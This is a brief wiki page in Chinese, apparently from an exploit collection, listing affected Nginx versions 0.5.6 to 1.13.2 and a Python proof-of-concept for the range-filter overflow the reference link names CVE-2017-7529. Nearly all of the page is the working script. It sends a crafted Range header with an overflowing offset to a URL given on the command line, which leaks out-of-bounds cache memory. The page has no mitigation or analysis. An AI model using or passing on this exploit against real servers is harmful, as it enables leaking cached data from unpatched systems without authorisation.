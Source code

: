 <languages /> <translate>

影響版本
--------

</translate>

    Nginx version 0.5.6 - 1.13.2

POC
---

    #!/usr/bin/env python
    import sys
    import requests

    if len(sys.argv) < 2:
        print("%s url" % (sys.argv[0]))
        print("eg: python %s http://your-ip:8080/" % (sys.argv[0]))
        sys.exit()

    headers = {
        'User-Agent': "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
    }
    offset = 605
    url = sys.argv[1]
    file_len = len(requests.get(url, headers=headers).content)
    n = file_len + offset
    headers['Range'] = "bytes=-%d,-%d" % (
        n, 0x8000000000000000 - n)

    r = requests.get(url, headers=headers)

<translate>

參考
----

</translate> <http://wiki.peiqi.tech/PeiQi_Wiki/Web%E6%9C%8D%E5%8A%A1%E5%99%A8%E6%BC%8F%E6%B4%9E/Nginx/Nginx%E8%B6%8A%E7%95%8C%E8%AF%BB%E5%8F%96%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E%20CVE-2017-7529.html>